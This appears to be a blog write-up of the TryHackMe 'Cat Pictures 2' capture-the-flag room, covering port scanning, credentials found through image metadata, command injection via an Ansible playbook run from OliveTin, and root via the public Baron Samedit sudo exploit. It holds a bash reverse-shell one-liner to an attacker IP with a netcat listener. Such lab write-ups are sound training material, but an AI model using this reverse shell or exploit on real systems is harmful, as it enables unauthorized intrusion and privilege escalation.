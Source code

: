 ```yaml
---
title: "Cat Pictures 2 TryHackMe"
collection: publications
permalink: /publication/cat-pictures-2
excerpt: 'This is a free room from TryHackMe'
date: 2023-07-07
venue: '07-07'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
#citation: 'Your Name, You. (2009). &quot;Paper Title Number 1.&quot; <i>Journal 1</i>. 1(1).'
---
```


![header](/images/catpictures2.png)

**LINK :** [Cat Pictures 2](https://tryhackme.com/room/catpictures2)



# Enumeration

* Started by running an Nmap scan :

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-07 07:21 EDT
Nmap scan report for 10.10.130.123
Host is up (0.064s latency).
Not shown: 995 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    nginx 1.4.6 (Ubuntu)
222/tcp  open  ssh     OpenSSH 9.0 (protocol 2.0)
1337/tcp open  http    OliveTin
3000/tcp open  ppp?
8080/tcp open  http    SimpleHTTPServer 0.6 (Python 3.6.9)
```

The scan reveals 6 open ports :

 * ``ssh`` running on port 22.
 * ``nginx`` on port 80.
 * ``ssh`` on port 222.
 * ``OliveTin`` on port 1337 to access predefined shell commands from a a web interface.
 * ``Gitea`` on port 3000.
 * ``nginx`` default page on port 8080.


---

* On port 80 we have a ``Lychee`` photo album with cat pictures, and since this room is about cats, it must be our way to get the first flag.
* I downloaded all the cats pictures and run ``exiftool`` to read the metadata of these pictures.

```bash
exiftool *.jpg
```
![catpictures1](/images/cat_pictures1.png)

* I noticed that one of these pictures revealed the path to a text file on port ``8080``.

* Checking the text file, we found the credentials to access ``gitea``.

![catpictures2](/images/cat_pictures2.png)

# FLAG 1 :

* After gaining the access to the user's account we found, you will see a file named ``flag1.txt`` in ``ansible`` repository.

![catpictures3](/images/cat_pictures3.png)

# FLAG 2 :

* Checking the Ansible playbook, you will notice it contains a ``command`` line. so the idea here is to change the command and run the playbook from the ``OliveTin`` page on port ``1337`` to see if the command is getting executed.

> [Ansible playbooks](https://docs.ansible.com/ansible/latest/playbook_guide/playbooks_intro.html)

![catpictures4](/images/cat_pictures4.png)

![catpictures5](/images/cat_pictures5.png)

![catpictures6](/images/cat_pictures6.png)

* Since the command is getting executed, we can run a reverse shell to us.

```bash
bash -c "bash -i >& /dev/tcp/<your-ip-address>/4444 0>&1"
```
![catpictures7](/images/cat_pictures7.png)

* Before you run the ansible playbook, let's open a netcat listener

```bash
nc -lvnp 4444
```
![catpictures8](/images/cat_pictures8.png)

# FLAG 3 :

* In order to speed things up, let's run ``linpeas`` to see if we have a privilege escalation vector.

> [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

* The one that stood out is ``the sudo Baron Samedit``.

![catpictures9](/images/cat_pictures9.png)

* I Downloaded this exploit [exploit](https://github.com/blasty/CVE-2021-3156) and uploaded it to the target machine.

```bash
make
```
![catpictures10](/images/cat_pictures10.png)

* let's run ``sudo-hax-me-a-sandwic``

```bash
.\sudo-hax-me-a-sandwic 0
```
![catpictures11](/images/cat_pictures11.png)

* Now we are root, change directory to ``/root`` and get your 3rd flag.




